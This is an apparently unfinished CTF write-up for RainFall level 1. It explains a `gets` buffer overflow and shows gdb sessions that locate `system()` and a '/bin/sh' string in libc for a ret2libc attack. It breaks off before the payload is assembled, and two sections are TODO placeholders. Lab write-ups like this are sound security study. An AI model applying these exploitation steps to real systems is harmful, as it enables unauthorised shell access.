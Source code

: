 #Level 1

## Buffer Overflow
In main we see that 76 bytes are allocated on the stack for a buffer, and then `gets` is called to fill that buffer.
Interestingly a quick `man 3 gets` informs us that `gets` should never be used as it is extremely dangerous...

This is commonly called a buffer overflow

{TODO explain stack}

## Shellcode
{TODO}

## Ret2libc
An alternative to using a shellcode is to find the adress of the `system()` function in memory and to complement it with a memory location that contains a shell path string.
This method has the advantage of also working when the NX bit is set (not the case here), NX being a technology that marks certain areas of memory as non-executable, supposedly foiling buffer overflow attacks. 

### Finding system()
First things first, let's get the address of the `system()` function in memory
```shell
level1@RainFall:~$ gdb ./level1 
[...]
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048483 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
We now know that `system()` is at `0xb7e6b060`

### Hot /bin/sh in your area

Now that we know the location of `system()` in memory, we could awkwardly get a shell string from the most obvious location, `$SHELL` in the stack, except this would expose us to the whim of a changing execution environment, messing our precious addresses.
A better approach is to get it from a mapped library, lucky for us the glibc contains `/bin/sh` as a string

First let's check where the libc is mapped within the program memory
```shell
(gdb) info proc map
process 3688
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level1/level1
         0x8049000  0x804a000     0x1000        0x0 /home/user/level1/level1
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
[...]
```

We can see that the libc is mapped several times, between `0xb7e2b000` and `0xb7fd2000`.

Let's now convert `/bin/sh/` to binary and search for it within this address space
```shell
(gdb) p/x "/bin/sh"
$8 = {0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x0}
(gdb) find /b 0xb7e2b000, 0xb7fd2000, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x0
0xb7f8cc58
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:      "/bin/sh"
```
`system()` is at `0xb7e6b060` and `"/bin/sh"` at `0xb7f8cc58`, nice!

###  Putting it all together


